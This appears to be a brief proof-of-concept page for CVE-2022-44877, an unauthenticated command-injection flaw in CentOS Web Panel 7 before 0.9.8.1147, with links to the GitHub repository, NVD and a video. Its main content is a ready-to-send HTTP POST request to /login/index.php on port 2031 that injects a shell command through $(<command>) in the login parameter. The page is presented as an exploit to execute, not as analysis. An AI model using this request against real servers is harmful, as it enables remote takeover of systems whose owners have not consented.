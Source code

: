 ### Affected versions
```
Centos Web Panel 7 - < 0.9.8.1147
```

### Execute
```
POST /login/index.php?login=$(<command>) HTTP/1.1
Host: <rhost>:2031
[...]
Accept-Encoding: gzip, deflate
Accept-Language: en
Connection: close

username=user&password=password&commit=Login
```

### References
https://github.com/numanturle/CVE-2022-44877
https://nvd.nist.gov/vuln/detail/CVE-2022-44877
https://www.youtube.com/embed/kiLfSvc1SYY

